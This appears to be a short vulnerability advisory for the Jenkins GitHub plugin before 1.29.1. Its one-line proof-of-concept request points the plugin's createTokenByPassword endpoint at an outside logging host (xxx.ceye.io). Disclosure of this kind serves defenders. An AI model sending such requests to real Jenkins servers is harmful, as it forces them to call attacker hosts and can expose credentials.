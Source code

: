 <languages   />

Affected version
----------------

Jenkins GitHub plugin is less than 1.29.1

The POC used is as follows, where user1 is the user name.

    /securityRealm/user/user1/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://xxx.ceye.io